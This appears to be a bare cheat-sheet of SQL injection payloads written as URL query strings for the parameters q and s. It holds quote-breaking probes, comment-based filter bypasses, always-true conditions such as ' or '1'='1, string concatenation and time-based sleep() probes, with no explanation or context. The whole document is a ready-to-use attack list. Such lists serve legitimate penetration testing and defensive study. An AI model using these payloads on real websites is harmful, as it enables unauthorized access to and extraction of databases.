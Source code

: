 SQL Injection Payloads


/?q=1

/?q=1'

/?q=1"

/?q=[1]

/?q[]=1

/?q=1`

/?q=1\

/?q=1/*'*/

/?q=1/*!1111'*/

/?q=1'||'asd'||' <== concat string

/?q=1' or '1'='1

/?q=1 or 1=1

/?q='or''='

/?s=1'

/?s=1"

/?s=[1]

/?s[]=1

/?s=1`

/?s=1\

/?s=1/*'*/

/?s=1/*!1111'*/

/?s=1'||'asd'||'

/?s=1' or '1'='1

/?s=1 or 1=1

/?s='or''='

/?s=")

/?s=')

/?s=-x()

/?s=1-sleep()

/?s=1 and sleep()

